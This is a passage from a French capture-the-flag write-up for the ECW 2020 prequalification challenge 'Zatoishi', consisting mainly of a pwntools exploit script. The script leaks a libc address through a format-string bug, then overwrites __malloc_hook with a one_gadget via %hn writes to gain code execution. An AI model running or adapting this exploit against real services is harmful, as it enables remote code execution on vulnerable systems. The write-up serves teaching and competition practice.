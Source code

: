 ![](/assets/images/ECW_PREQUALS_2020/Zatoishi/12.png)

Utilisons le one_gadget à 0xf0364. Ici, le chall devient assez classique, il faut se servir de $hn pour écrire à l'adresse voulue.

```python
from pwn import *
import binascii
import re

r = remote('challenge-ecw.fr', 2020, level='error')
r.recvrepeat(0.1)
reloc_libc_start = 0x00602060
libc_start_main =  0x020750
one_gadget = 0xf0364
libc_malloc_hook = 0x003c4b10
payload = b'HELO %90$s'+b'BBBBBB'+p64(reloc_libc_start)
r.sendline(payload)
data = r.recv()
leaked = data.split(b'BBBBBB')[0].split(b'Hello ')[1]
libc_start = int(binascii.hexlify(leaked[::-1]),16)-libc_start_main
print("libc_start: 0x%08x"%libc_start)
print("libc_malloc_hook: 0x%08x"%(libc_start+libc_malloc_hook))
print("libc_one_gadget: 0x%08x"%(libc_start+one_gadget))
wanted = libc_start+one_gadget
first = (wanted & 0xffff)
payload = b'HELO %'+b'%d'%first+b'x%96$hn'
payload += b'b'*(64-len(payload))+p64(libc_start+libc_malloc_hook)
r.sendline(payload)
r.recvrepeat(0.1)
first = (wanted>>16 & 0xffff)
payload = b'HELO %'+b'%d'%first+b'x%96$hn'
payload += b'b'*(64-len(payload))+p64(libc_start+libc_malloc_hook+2)
r.sendline(payload)
r.recvrepeat(0.1)
first = (wanted>>32 & 0xffff)
payload = b'HELO %'+b'%d'%first+b'x%96$hn'
payload += b'b'*(64-len(payload))+p64(libc_start+libc_malloc_hook+4)
r.sendline(payload)
r.recvrepeat(0.1)
payload = "HELO %65537c"
r.sendline(payload)
```